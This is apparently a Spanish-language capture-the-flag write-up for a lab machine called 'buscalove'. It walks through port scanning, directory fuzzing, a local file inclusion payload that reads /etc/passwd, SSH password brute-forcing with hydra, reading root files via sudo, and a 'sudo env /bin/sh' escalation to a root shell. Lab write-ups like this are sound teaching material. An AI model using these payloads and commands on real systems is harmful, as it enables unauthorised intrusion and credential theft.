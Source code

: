 # buscalove

* Máquina **atacante** -> 172.18.0.1
* Máquina **objetivo** -> 172.18.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.18.0.2
```
![escaneo](/Capturas/2024-11-11_21-24.png)

Encontramos los puertos **80** y **22** abiertos.

### Fuzzing web

Como no vemos nada más allá de una plantilla básica de apache:

![plantilla_apache](/Capturas/2024-11-11_21-29.png)

Procedemos a realizar **fuzzing web** para encontrar directorios ocultos:
```shell
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.py,.php,.sh
```
![fuzzing](/Capturas/2024-11-11_21-31.png)

Observamos que exite el directorio `/wordpress` y dentro solamente `index.php`. Al observar la página web, solamente nos topamos con un comentario interesante en el código fuente:

![c_fuente](/Capturas/2024-11-11_21-34.png)

Aunque luego veremos que se trata de una pista, en el momento no me sirvió.

### Local File Inclusion

En cambio, cuando decidimos comprobar si existe la vulnerabilidad de **Local File Inclusion** con *wfuzz* podemos observar, que la pista cobra sentido:
```shell
wfuzz -c --hc 404 --hl 40 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../etc/passwd
```
![fuzz](/Capturas/2024-11-11_21-43.png)

Vemos que con la palabra **love** podemos realizar un **LFI** y ver el contenido del fichero `/etc/passwd`. Así que procedemos a comprobarlo y resulta que existen dos usuarios:

![passwd](/Capturas/2024-11-11_21-45.png)

**pedro** y **rosa**.

### Fuerza bruta

Probamos a realizar un ataque de **fuerza bruta** con *hydra* a los usuarios encontrados vía **ssh**:
```shell
hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```
![fb](/Capturas/2024-11-11_21-49.png)

Encontramos que el usuario **rosa** posee la contraseña **lovebug**.

### Escalada de privilegios

Entramos con las credenciales obtenidas:
```shell
ssh rosa@172.18.0.2
```
![ssh](/Capturas/2024-11-11_21-51.png)

Comprobamos si podemos ejecutar algún comando como **sudo**:

![sudo-l](/Capturas/2024-11-11_21-53.png)

Obtenemos que podemos ver directorios (**ls**) y ficheros (**cat**) como si fuéramos **root**. Así que, probamos a ver el contenido de lo existente en `/root`:
```shell
sudo -u root ls -la /root
```
![root](/Capturas/2024-11-11_21-57.png)

Y ahora vemos el contenido del fichero **secret.txt**:
```shell
sudo -u root cat /root/secret.txt
```
![secret](/Capturas/2024-11-11_21-58.png)

Recibimos una cadena hexadecimal, que deberemos pasarla a texto plano para poder interpretar su contenido:

![hexa](/Capturas/2024-11-11_22-00.png)

Parecer ser que lo que nos devuelve, podría tratarse de una contraseña. Por lo que intentamos acceder al usuario **pedro** con la posible credencial:

![noacertarasosi](/Capturas/2024-11-11_22-02.png)

Al entrar como **pedro**, probamos nuevamente a ver qué comandos podemos ejecutar como **sudo**:

![sudo-l2](/Capturas/2024-11-11_22-03.png)

Como podemos ejecutar **env** como si fueramos **root**, ejecutamos:
```shell
sudo env /bin/sh
```
![rooty](/Capturas/2024-11-11_22-05.png)

Y obtenemos una shell como **root** :triangular_flag_on_post: